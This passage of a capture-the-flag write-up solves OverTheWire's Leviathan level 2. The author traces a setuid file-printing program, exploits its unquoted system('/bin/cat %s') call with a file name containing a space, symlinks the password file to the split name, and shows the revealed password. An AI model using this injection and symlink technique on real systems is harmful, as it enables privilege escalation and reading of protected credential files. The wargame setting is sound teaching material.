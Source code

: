 ***Alternative Solution***

When we read the ``ltrace`` output, we realize that the ``/bin/cat`` command uses just the first part of the filename. Therefore, we can exploit this by creating a file that has a space in it to make the ``/bin/cat`` command read it as 2 separate files. Thereafter, we link the second file to the password location using a symbolic link ``ln -s <original file> <fake file>``

```
leviathan2@leviathan:~$ mkdir /tmp/shiro
leviathan2@leviathan:~$ echo "hi" >> /tmp/shiro/test.txt
leviathan2@leviathan:~$ ./printfile /tmp/shiro/test.txt
hi
leviathan2@leviathan:~$ ltrace ./printfile /tmp/shiro/test.txt
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/shiro/test.txt", 4)                                          = 0
snprintf("/bin/cat /tmp/shiro/test.txt", 511, "/bin/cat %s", "/tmp/shiro/test.txt") = 28
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
system("/bin/cat /tmp/shiro/test.txt"hi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
leviathan2@leviathan:~$ echo "hi 2" >> /tmp/shiro/"test 2".txt # you can also do test\ 2.txt
leviathan2@leviathan:~$ ./printfile /tmp/shiro/"test 2".txt
/bin/cat: /tmp/shiro/test: No such file or directory
/bin/cat: 2.txt: No such file or directory
leviathan2@leviathan:~$ ltrace ./printfile /tmp/shiro/"test 2".txt
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/shiro/test 2.txt", 4)                                        = 0
snprintf("/bin/cat /tmp/shiro/test 2.txt", 511, "/bin/cat %s", "/tmp/shiro/test 2.txt") = 30
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
system("/bin/cat /tmp/shiro/test 2.txt"/bin/cat: /tmp/shiro/test: No such file or directory # we notice here that it tried to read a file called test but there is no such file (so let's link this to the password file)
/bin/cat: 2.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 256
+++ exited (status 0) +++
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/shiro/test
leviathan2@leviathan:~$ ./printfile /tmp/shiro/"test 2".txt
Ahdiemoo1j
/bin/cat: 2.txt: No such file or directory
```


# Level 3
